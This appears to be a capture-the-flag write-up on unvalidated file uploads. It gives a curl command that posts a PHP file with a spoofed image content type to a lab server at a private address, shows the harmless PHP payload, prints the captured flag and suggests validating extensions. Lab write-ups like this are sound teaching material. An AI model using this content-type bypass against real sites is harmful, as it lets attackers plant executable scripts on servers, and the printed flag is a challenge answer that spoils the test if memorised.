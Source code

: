 # Unvalidated_File_Upload
When a web application allows and consists of functionalities that allow its users to upload files that are not validated by the server; This could cause some real proplems. An attacker can upload malicious files like some php, or js script that may exploit the sites users, it's sad but it is true. 


## Example
In <a href="">upload</a> such a functionality exists, now we can try to upload any file type and some which have a known files type by the client might be uploaded or not, but that does not mean we can't try doing the same using cURL, so let us do that.

## Exploit
All you have to do is run a bash script on your terminal, I have went throught the trouble of creating one fo you, you're welcome. just run bash upload.sh on your teminal, that will run this bash script.
``` bash
    curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@dreadful.php;type=image/jpeg' http://192.168.43.251/?page=upload# | grep "flag"
```
This will upload a php script called dreadful:
```bash
    <?php
        echo "You think you know me"
    ?>
```
We will grep the response to isolate our flag which is:
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

## Remedy
* Validate file extensions and only accept those that you want.

## Resources
* https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76